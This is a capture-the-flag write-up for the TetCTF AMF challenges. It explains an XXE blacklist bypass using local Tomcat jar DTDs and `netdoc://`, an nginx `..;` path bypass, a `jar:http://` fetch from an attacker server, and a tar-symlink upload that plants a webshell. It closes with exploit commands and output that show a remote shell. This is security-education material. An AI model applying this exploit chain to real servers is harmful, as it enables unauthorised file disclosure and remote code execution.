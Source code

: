 # AMF1

- in this challenge, it's about XXE with some specific techniques on Java

- the blacklist is: `file|ftp|http|https|data|class|bash|logs|log|conf|etc|session|proc|root|history`

- so you can't make a outbound request to get your remote DTD, this time we need a local DTD to archive XXE. Have a quick look on this awesome blog: https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

- with the trick: `jar:/file://[some_zip_file]!/[dtd_inside_the_archive]`, we can make use of local DTD in some jars file of Tomcat
- Reference: https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads_jars.md

- Java has `netdoc://` protocol, which is same as `file://`

- In the context of AMF, it will catch the Exception while handling the xml, and through it as HTTP Response, we can make use of this to archive XXE error-based
    - For ex: 
        - `_://` => no protocol exception

- Final Exploit
    - using `jar://` to load dtd inside some Tomcat jars
    - using `netdoc://` instead of `file://`, `netdoc://` or `file://` can also listing the directory (use to find the flag)
    - amf context exif error message via HTTP Respose + `_://` => error-based XXE

            python amf_xxe.py "http://139.162.40.239:1337/tetctf/messagebroker/amf" foo tetctf_v1


# AMF2
- tomcat with nginx, the most misconfiguration in 2020, which leading to many RCEs
- with `/tetctf/dummy/..;/messagebroker` you can bypass nginx 403 and reach AMF endpoints
- in the second challenge, we exploit another bug on AMF, trigger `readExternal()` or some public `setters`, this allow us to trigger the `setBackupFile` of `TetCTFUtils`
- `TetCTFUtils.setBackupFile()` execute a `tar` command on arbitrary file on the system, so we need to create and upload a tar symlink file to server with `UploadServlet`
- Another clever way, we can make use of XXE with `jar:http://host/a.zip!/a.txt` with a custom socket server to make the server save the tmp file, and hang the connection to make the tmp file not deleted for a while, then use the xxe bug with `file://` to listing the directory to view the file name of tmp file, and finally, trigger the setter
- The last step: when we have created the symlink to the webroot, we just need to write our shell to the file we symlink to our webshell, so you can pass all the filter in the `UploadServlet`

## on your server run: 
    python jar_xxe_server.py

- edit the content of payload `trigger_jar_xxe` in `amf_xxe.py` to point to your socket server

## python tetctf_exp.py 


    [+] trigger_amf_xxe etc_hosts
    etc_hosts output: 
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    172.17.0.3	02688b965fbd (No such file or directory)...Bwlb.....
    [+] Done
    [+] trigger_amf_xxe trigger_jar_xxe
    [+] trigger_amf_xxe get_tmp_filename
    get_tmp_filename output: 
    jar_cache7343514775749524690.tmp
    safeToDelete.tmp (No such file or directory)...Bwlb.2...
    [+] Done
    [+] tmp filename: jar_cache7343514775749524690.tmp
    [+] generate_amf_setter_payload
    [+] trigger_setter
    AppendToGatewayUrl,;jsessionid=A9A1197B578F257C267FABA24A88FF87	/onStatus 
    C	coderootCausedetailsmessage#Server.ProcessinThe supplied destination id is not registered with any service.
    [+] upload_via_symlink
    { "serviceResponse":"true", "serviceError":null, "serviceName":"File Upload", "opName":"fileUpload" }
    [+] done, enjoy shell
    /peterjson@remote_shell/~.~
    id

    uid=1000(service) gid=1000(service) groups=1000(service)


    None
    /peterjson@remote_shell/~.~
    whoami       

    service



